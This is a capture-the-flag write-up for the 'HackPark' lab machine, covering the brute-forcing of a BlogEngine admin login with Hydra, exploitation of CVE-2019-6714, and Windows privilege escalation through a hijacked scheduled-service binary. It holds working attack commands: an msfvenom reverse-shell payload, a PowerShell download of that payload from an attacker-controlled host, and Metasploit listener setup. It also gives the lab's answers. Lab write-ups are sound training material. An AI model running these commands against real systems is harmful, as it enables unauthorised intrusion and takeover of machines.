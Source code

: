 # HackPark

## Task 1 Deploy

**2. What's the name of the clown displayed on the homepage?**

```
Pennywise
```

## Task 2 Using Hydra to Brute-Force a Login

The login page is located at `http://$IP/Account/login.aspx?ReturnURL=/admin/` 

**1. What request type is the Windows website login form using?**

```
POST
```

**2. Use Hydra to bruteforce the login. What is the password?**

We use `admin` as the username and use a wordlist to brute-force the password.

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.104.218 http-post-form "/Account/login.aspx?ReturnRUL=/admin:__VIEWSTATE=M8wswOR4ZainhZGJXbBkESyeeoLj6xy%2B%2BK9XvsOXIA8neNAbPsStGmz7IFndSF6pmzKwiiH0puuStmdQgCeAVOa9TdYMyXNh0f2qL7CfIMfzi0EmlPr2dMt029ggPgYWRYpH3Q83EdxJ04MOF%2Bmz0w3nTS894VH%2BsyKYfuoX4iqN5S7QtKek6Uha1Tu6CJazDjwqmbwFO7lMfBYHtY%2FQz7%2FL0n%2BA5lOuavdb7Mld8wjcO3AgZRTiQ3mChNBKhcGoATu2QqtQTca9hhI4qPteSLn%2B83KaY1GI6eAMGL0Zsw1bDzfIf1izwpgHPfaHg1myRUs9IpAcjBFnfG2amOiWzgQCdAHv%2B2uCux8s0M%2F6Cz6OfYqh&__EVENTVALIDATION=Fy1OHAR8bWB5XuX2mus2R0CgFC0HcUrdhY%2FCFeWMd78mkVHoFWVyogl7HWxcRNUABQk9Aj%2BAT%2BjtlYh0LmKwuEGfw3cLFaV10FVhf%2BO6qUdI9EtYQCn5yyZrIIfpuy4HxreQNDEMfTLd7BYIeFoqQgToXCwHPCJkXL4Hki%2BrJ7zMBXBA&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"
```
Within the quotation marks, the `/Account/login/aspx?ReturnURL=/admin` was taken from the URL with attempting to login with `admin:admin`. After the colon is the cookie intercepted by Burpsuite when attempting to login. Towards the end of the string, we have to include `^USER^` and `^PASS^`, and after the last colon, include `Login Failed`. The password is `1qaz2wsx`.

## Task 3 Compromise The Machine

**1. What version of blogengine is running?**

Upon logging in, navigating to the About page reveals the blogengine version running: `3.3.6.0`.

**2. What is the CVE?**

```
CVE-2019-6714
```

**3. Who is the webserver running as?**

Following the instructions in the exploit comments, we get a shell after setting up a netcat listener and navigating to the URL specified.

```
whoami
iis apppool\blog
```

## Task 4 Windows Privilege Escalation

**1. Generate a reverse shell with msvenom.**

Generate exploit
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.4.248 LPORT=9001 -f exe > shell.exe
```

With our existing shell on the box, pull it down with a PowerShell command (must start python server locally first).

```
powershell -c "Invoke-WebRequest -Uri 'http://10.11.4.248:8000/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"
```

Start metasploit and set up listner.

```
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT <port set when generating exploit>
run
```

On the victim machine, start `shell.exe` process

```
Start-Process "shell.exe"
```

We now have a meterpreter session.

**2. What is the OS version?**

```
sysinfo
```

**3. What is the name of the abnormal _service_ running?**

Look at all the running processes, we see there is a scheduler, meaning something is being scheduled. Navigate to `C:\Program Files (x86)\SystemScheduler\Events` and cat `20198415519.INI_LOG.txt` to see what is being scheduled, which is `Message.exe`.

The abnorma service running isn't "abnormal", but it's WScheduler.exe, and the answer is `WindowsScheduler.exe` for some reason.

**4. What is the name of the binary to exploit?**

```
Message.exe
```

**5. Using the service, elevate privs. What is the user flag?**

Download the shell.exe file to `C:\Program Files (x86)\SystemScheduler` and rename Message.exe to Message.bak to keep a copy, then rename shell.exe to MAeeage.exe. Make sure a listener is ready for the callback. With our new shell, we have system privs. The user flag is located in `C:\Users\jeff\Desktop`.

**6. What is the root flag?**

The root flag is located in `C:\Users\Administrator\Desktop`.

## Task 5 Priv Esc Without Metasploit

We can do the same thing without metasploit by just creating a payload with `windows/shell_reverse_tcp` and listening for it with netcat.

**3. What was the original install time?**

Wasn't sure what install time was referring to, so I checked Install time of Message.exe, which didn't match the answer. I then checked the OS install time.

```
systeminfo | find /i "original"
```

